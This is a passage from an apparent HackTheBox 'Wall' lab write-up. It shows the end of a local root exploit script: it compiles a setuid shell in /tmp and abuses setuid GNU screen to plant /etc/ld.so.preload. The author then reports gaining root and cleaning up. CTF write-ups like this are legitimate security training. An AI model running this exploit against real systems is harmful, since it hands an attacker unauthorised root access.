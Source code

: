     setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
{% endhighlight %}

<p>Moved the script over to Wall and kicked it off to see if we can successfully privesc to root.</p>

<p align="center">
<img src="{{ '/assets/htb-wall/root-initialshell.PNG' | relative_url }}">
</p>

<p>And with that we had access to our root.txt flag and could easily step to the user.txt flag as well.</p>

<p align="center">
<img src="{{ '/assets/htb-wall/root-owned.PNG' | relative_url }}">
</p>

<h1>Extra fun</h1>

<p>Unfortunately as a result of the privesc exploit there were a lot of remnants left on the machine. As a final act made sure to clean up after myself not to ruin anyone else's experience that happened to stumble upon these.</p>

<p align="center">
<img src="{{ '/assets/htb-wall/root-cleanup.PNG' | relative_url }}">
</p>
